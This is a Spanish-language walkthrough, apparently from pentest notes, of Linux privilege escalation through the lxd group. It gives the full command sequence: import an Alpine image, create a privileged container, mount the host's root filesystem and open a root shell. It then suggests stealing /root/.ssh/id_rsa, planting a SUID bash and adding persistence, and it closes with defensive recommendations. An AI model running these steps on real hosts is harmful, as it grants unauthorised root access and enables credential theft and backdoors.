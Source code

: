 ```bash
lxc image import ./alpine-v3.17-*.tar.gz --alias myalpine
```

Creamos un contenedor:

```bash
lxc init myalpine pwned -c security.privileged=true
```

Montamos el sistema de archivos del host dentro del contenedor:

```bash
lxc config device add pwned mydevice disk source=/ path=/mnt/root recursive=true
```

Iniciamos el contenedor:

```bash
lxc start pwned
```

Entramos al contenedor:

```bash
lxc exec pwned /bin/sh
```

---

#### Resultado:

Dentro del contenedor tenemos acceso como root:

```bash
~ # id
uid=0(root) gid=0(root) groups=...
```

Y podemos acceder a `/mnt/root`, que corresponde al sistema de archivos del host.

---

#### Escalada final:

Una vez dentro, podemos hacer cualquiera de estas acciones:

- Leer archivos sensibles como `/mnt/root/root/.ssh/id_rsa`.
    
- Copiar `/bin/bash` y darle SUID en el host.
    
- Modificar archivos críticos para mantener acceso persistente.
    

---

### Recomendaciones

- Evitar añadir usuarios no privilegiados al grupo `lxd`.
    
- Controlar estrictamente quién tiene permisos para ejecutar contenedores.
    
- Auditar los grupos con herramientas como `lse`, `linpeas` o `id`.
    